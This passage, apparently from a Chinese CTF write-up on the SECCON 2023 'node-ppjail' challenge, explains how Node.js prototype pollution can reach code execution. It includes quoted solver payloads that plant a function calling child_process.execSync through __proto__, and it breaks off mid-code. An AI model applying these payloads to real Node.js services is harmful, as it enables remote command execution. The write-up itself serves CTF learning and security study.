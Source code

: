因此就等同於是執行了 `console.log(src)`，所以 src 就會出現在輸出裡面。

### node-ppjail (5 solves)

這題可以讓你污染 prototype 上面的東西，而且值可以是 function，但問題是不能污染已經有的屬性。

解法是觸發錯誤之後，去找 Node.js 底層會幹嘛，然後污染相對應的屬性。

一個簡單的範例是：

``` js
Object.prototype.prepareStackTrace = function(){
  console.log('pwn')
}
Object.toString.arguments
```

輸出為：

```
pwn
/js/pp.js:4
Object.toString.arguments
                ^

[TypeError: 'caller', 'callee', and 'arguments' properties may not be accessed on strict mode functions or the arguments objects for calls to them]

Node.js v20.0.0
```

至於要怎麼找出這屬性，學 [maple](https://blog.maple3142.net/2023/09/17/seccon-ctf-2023-quals-writeups/#sandbox) 去 patch V8 似乎是個不錯的選擇。

而作者則是有找到另外兩種方法，在這邊留個紀錄以後比較好找，來源是[作者的 writeup](https://blog.arkark.dev/2023/09/21/seccon-quals/)：

``` py
def solve1() -> str:
    # Solution 1:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/fixed_queue.js#L81
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/process/task_queues.js#L77
            "1": {
                "callback": {
                    "__custom__": True,
                    "type": "Function",
                    "args": [
                        f"console.log(global.process.mainModule.require('child_process').execSync('{command}').toString())"
                    ],
                },
            },
        },
    })


def solve2() -> str:
    # Solution 2:
    return json.dumps({
        "__proto__": {
            # ref. https://github.com/nodejs/node/blob/v20.6.0/lib/internal/util/inspect.js#L1064
            "circular": {
                "get": {
                    "__custom__": True,
                    "type": "Function",
                    "args": [
```